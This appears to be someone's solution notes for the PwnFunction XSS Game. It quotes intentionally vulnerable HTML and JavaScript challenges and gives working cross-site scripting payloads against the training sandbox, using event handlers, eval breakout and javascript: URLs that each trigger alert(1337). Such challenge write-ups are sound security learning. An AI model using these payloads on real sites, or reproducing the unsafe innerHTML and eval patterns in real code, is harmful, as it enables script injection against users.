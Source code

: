 # Pwnfunction XSS Game solutions
https://xss.pwnfunction.com/

## Warmups
### Ma Spaghet!

```html
<h2 id="spaghet"></h2>
<script>
    spaghet.innerHTML = (new URL(location).searchParams.get('somebody') || "Somebody") + " Toucha Ma Spaghet!"
</script>
```

My solution: `https://sandbox.pwnfunction.com/warmups/ma-spaghet.html?somebody=<svg>onload=alert(1337)>`

### Jefff

```html
<h2 id="maname"></h2>
<script>
    let jeff = (new URL(location).searchParams.get('jeff') || "JEFFF")
    let ma = ""
    eval(`ma = "Ma name ${jeff}"`)
    setTimeout(_ => {
        maname.innerText = ma
    }, 1000)
</script>
```

- I tried concatenation where `%2b` is `+`: `https://sandbox.pwnfunction.com/warmups/jefff.html?jeff=abc"%2b"xyz`
- Then got a working payload: `https://sandbox.pwnfunction.com/warmups/jefff.html?jeff="%2balert(1337)%2b"`
- Intended solution: `"-alert(1337)-"`

### Ugandan Knuckles

```html
<div id="uganda"></div>
<script>
    let wey = (new URL(location).searchParams.get('wey') || "do you know da wey?");
    wey = wey.replace(/[<>]/g, '')
    uganda.innerHTML = `<input type="text" placeholder="${wey}" class="form-control">`
</script>
```

My solution (same as rxss-angles-encoded in portswigger): `" autofocus onfocus="alert(1337)`
Intended solution: `"onfocus=alert(1337) autofocus="`

### Ricardo Milos

```html
<form id="ricardo" method="GET">
    <input name="milos" type="text" class="form-control" placeholder="True" value="True">
</form>
<script>
    ricardo.action = (new URL(location).searchParams.get('ricardo') || '#')
    setTimeout(_ => {
        ricardo.submit()
    }, 2000)
</script>
```

- Spent a lot of time hacking the wrong parameter `milos` instead use `ricardo`.
- My solution: `https://sandbox.pwnfunction.com/warmups/ricardo.html?ricardo=javascript:alert(1337)`
- Intended solution: `javascript:alert(1337)`

### Ah That's Hawt

```html
<h2 id="will"></h2>
<script>
    smith = (new URL(location).searchParams.get('markassbrownlee') || "Ah That's Hawt")
    smith = smith.replace(/[\(\`\)\\]/g, '')
    will.innerHTML = smith
</script>
```

